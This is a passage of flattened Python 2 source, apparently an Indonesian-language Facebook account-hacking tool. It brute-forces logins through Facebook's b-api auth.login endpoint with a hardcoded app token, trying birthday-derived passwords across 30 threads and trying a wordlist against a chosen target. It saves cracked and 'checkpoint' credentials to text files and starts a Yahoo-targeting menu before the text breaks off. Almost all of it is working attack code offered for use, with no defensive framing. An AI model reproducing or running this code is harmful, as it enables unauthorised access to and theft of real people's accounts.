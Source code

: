 '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass3                             else:                                 if 'www.facebook.com' in q['error_msg']:                                     print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass3                                 else:                                     lahir = b['birthday']                                     pass4 = lahir.replace('/', '')                                     data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + user + '&amp;locale=en_US&amp;password=' + pass4 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                                     q = json.load(data)                                     if 'access_token' in q:                                         print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass4                                     else:                                         if 'www.facebook.com' in q['error_msg']:                                             print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass4         except:             pass      p = ThreadPool(30)     p.map(main, id)     print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')     super()   def brute():     os.system('reset')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()     else:         os.system('reset')         print logo         print 40 * '\x1b[1;97m\xe2\x95\x90'         try:             email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail\x1b[1;97m/\x1b[1;92mHp \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ')             passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')             total = open(passw, 'r')             total = total.readlines()             print 40 * '\x1b[1;97m\xe2\x95\x90'             print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email             print '\x1b[1;91m[+] \x1b[1;92mJumlah\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword'             jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')             sandi = open(passw, 'r')             for pw in sandi:                 try:                     pw = pw.replace('\n', '')                     sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mMencoba \x1b[1;97m' + pw)                     sys.stdout.flush()                     data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + email + '&amp;locale=en_US&amp;password=' + pw + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                     mpsh = json.loads(data.text)                     if 'access_token' in mpsh:                         dapat = open('Brute.txt', 'w')                         dapat.write(email + ' | ' + pw + '\n')                         dapat.close()                         print '\n\x1b[1;91m[+] \x1b[1;92mDitemukan.'                         print 40 * '\x1b[1;97m\xe2\x95\x90'                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email                         print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw                         keluar()                     else:                         if 'www.facebook.com' in mpsh['error_msg']:                             ceks = open('Brutecekpoint.txt', 'w')                             ceks.write(email + ' | ' + pw + '\n')                             ceks.close()                             print '\n\x1b[1;91m[+] \x1b[1;92mDitemukan.'                             print 40 * '\x1b[1;97m\xe2\x95\x90'                             print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint'                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email                             print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw                             keluar()                 except requests.exceptions.ConnectionError:                     print '\x1b[1;91m[!] Koneksi Error'                     time.sleep(1)          except IOError:             print '\x1b[1;91m[!] File tidak ditemukan...'             print '\n\x1b[1;91m[!] \x1b[1;92mSepertinya kamu tidak memiliki wordlist'             tanyaw()   def tanyaw():     why = raw_input('\x1b[1;91m[?] \x1b[1;92mIngin membuat wordlist ? \x1b[1;92m[y/t]\x1b[1;91m:\x1b[1;97m ')     if why == '':         print '\x1b[1;91m[!] Tolong pilih \x1b[1;97m(y/t)'         tanyaw()     else:         if why == 'y':             wordlist()         else:             if why == 'Y':                 wordlist()             else:                 if why == 't':                     menu_hack()                 else:                     if why == 'T':                         menu_hack()                     else:                         print '\x1b[1;91m[!] Tolong pilih \x1b[1;97m(y/t)'                         tanyaw()   def menu_yahoo():     os.system('reset')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('reset')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     print '\x1b[1;37;40m1. Dari teman facebook'     print '\x1b[1;37;40m2. Gunakan
File'     print
